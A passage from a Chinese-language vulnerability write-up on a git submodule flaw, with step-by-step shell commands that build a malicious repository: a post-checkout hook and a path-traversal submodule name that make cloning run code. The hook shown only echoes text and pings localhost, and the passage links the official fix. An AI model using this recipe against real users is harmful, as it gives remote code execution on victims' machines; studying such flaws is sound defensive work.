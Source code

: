     这里的`submod`为之后将要进行clone操作的`submodule_path`。

2. 添加两个准备用于触发的子模块，第一个用于布置漏洞，第二个用于触发hook：

    ```none
    git submodule add https://github.com/staaldraad/repository.git submod
    git submodule add https://github.com/staaldraad/repository.git aaa
    ```

    其中`submod`和`aaa`即为之前提到的`submodule_path`

3. 将此时生成好的`.git/modules/submod`拷贝到`fakegit/modules/submod`：

    ```none
    mv .git/modules/submod fakegit/modules/submod
    ```

    并且创建有效的钩子（例子中挑选的为`post-checkout`）：

    ```none
    cat > fakegit/modules/submod/hooks/post-checkout <<EOF
    #!/bin/sh

    echo "PWNED"
    ping -c 3 127.0.0.1

    exit 0
    EOF

    chmod +x fakegit/modules/submod/hooks/post-checkout
    ```

4. **漏洞点** 修改`.gitmodule`，将其中的`submodule.name`由`submod`改为`../../fakegit/modules/submod`

    ```shell
    $ sed -i '0,/submod/{s/"submod/"\.\.\/\.\.\/fakegit\/modules\/submod/}' .gitmodules
    ```

    之后，git将会将`fakegit/modules/submod`视为`.git/modules/submod`，从而方便我们劫持。

    * 为了保障git的一致性，修改`fakegit/.git`中的内容，使其指向`fakegit/modules/submod`

    ```shell
    $ sed -i 's/\.git/fakegit/' submod/.git
    ```

    这样就会彻底骗过git的操作，让其以为`fakegit/modules/submod`为真正的子目录。

5. 提交修改，commit，完成所有操作
6. 当受害者尝试拷贝git repo内容的时候，最终会因为识别到错误的目录，最终触发对应的`post-checkout`文件，实现RCE。

    至此，完成整个攻击流程：

    ![](/attachments/2024-07-31-git/10fdc958-3d2b-41cf-bdcd-2216c1c65871.png)

#### 3.1.2 修复策略

官方给出了[相关的修复策略](https://github.com/git/git/commit/0383bbb9015898cbc79abd7b64316484d7713b44)

 ![](/attachments/2024-07-31-git/b4cc2b31-8813-4af5-a532-21b65a262d55.png)

